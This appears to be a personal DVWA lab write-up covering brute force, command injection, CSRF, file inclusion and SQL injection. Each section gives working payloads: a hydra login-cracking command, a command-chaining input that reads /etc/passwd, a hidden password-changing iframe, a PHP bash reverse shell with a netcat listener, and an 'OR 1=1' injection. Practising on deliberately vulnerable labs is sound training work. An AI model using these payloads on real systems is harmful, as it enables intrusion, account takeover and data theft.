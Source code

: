 # [Brute Force]

--- 

## Steps to Exploit

1. Navigate to a directory with a wordlist in it. Or copy one to a directory. Or set the path to it in hydra.
2. hydra -l admin -P rockyou.txt 192.168.1.117 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=58g00j5r76tjr9jhji9gbif564;security=medium:F=Username and/or password incorrect."
- -l states its a login
- -P calls a pass list
- IP is DVWA dest IP on vlan (hopefully lol)
- Set web server directory
- If you inspect the DVWA login form you will see the name of the elements you need to specify for hydra to know what on the web page its trying to brute force.
- Set cookies. Without DVWA rejects the request as it doesn't represent a legitimate request. Can get these from performing a get request on the server and viewing dev stuff in firefox/chrome/brave etc.
3. Login


# [Command Execution]

--- 

## Steps to Exploit

1. Get an IP from your internal network/vlan.
- In Linux arp -a
2. Different command chaining options
- ; && || | $()
3. Try all of these. Some work
4. 192.168.1.1 | cat /etc/passwd


# [CSRF]

--- 

## Steps to Exploit

1. So to make this a bit more interesting I'll whack it in an iframe. When loaded it will change your password on DVWA.
2. After having a look at network in dev tools the request is a GET request when changing pass
3. Also observed if you have a look in the URL after changing the password the params are very easily editable to change pass
4. Because there isn't a token in the GET request, we don't need to call a specific cookie/user token to choose what accounts password we are changing.
5. Here's the iframe snippet
<pre>
    <iframe> 
      src="http://192.168.1.117/dvwa/vulnerabilities/csrf/?password_new=password123&password_conf=password123&Change=Change" 
      width="0" 
      height="0" 
      style="display:none;">
    </iframe>
</pre>
6. Changes password to 'password123' for the user that is logged in. This only works if the user is logged into the website at the time.
7. To test this work you can boot up burp for your browser and you will see the forward request come through when you load this malicious html file.
8. You can also host a HTTP server on your host as well. Then if I visit (my-host-ip:port-assigned-to-http-server/malicious-html-filename.html it will commit the change.
9. So I could send this link to a mailbox. And anything that clicks on, that is logged in to the website in question. Will have there password changed.
10. CSRF vulnerabilities are quite obsolete now as most modern sites don't send cookies via GET/POST requests.


# [File Inclusion]

---

## Steps to Exploit LOW

- I've done Low here cause I think it's neat. And demonstrates a bit.

1. Alright lets run a .php reverse shell for this
2. Find ur ip on the internal network/vlan
3. <?php exec("/bin/bash -c 'bash -i>& /dev/tcp/192.168.1.120/1234 0>&1'"); ?>
- Save as shell.php
- IP is your Kali machines IP and the port is whatever port you are going to run the listener on
4. 'Python -m http.server'
5. 'nc -lvnp 1234'
6. Now in the URL in DVWA. Set http://192.168.1.117/dvwa/vulnerabilities/fi/?page=http://192.168.1.120:8080/shell.php (Whatever the equivalent is for ur machine)
7. This tricks the web server into running the .php file from our kali machine. Thus, creating a reverse shell. Easy right!

## Steps to Exploit MEDIUM

# [SQL Injection]

---

## Steps to Exploit MEDIUM
1. Looking at the .php code we can see that mysql_real_escape_string is used
- This escapes ' " \ NULL so none of these can be used in the SQLi
2. So instead we will just use 1 OR 1=1
- 1 because we want the first and last name of user 1. OR 1=1 which is always true.
- So the query would look like this in the backend $getid = "SELECT first_name, last_name FROM users WHERE user_id = 1 OR 1=1";
- Which would then set the $id variable to $id=1 OR TRUE
- Thus returning all the values.
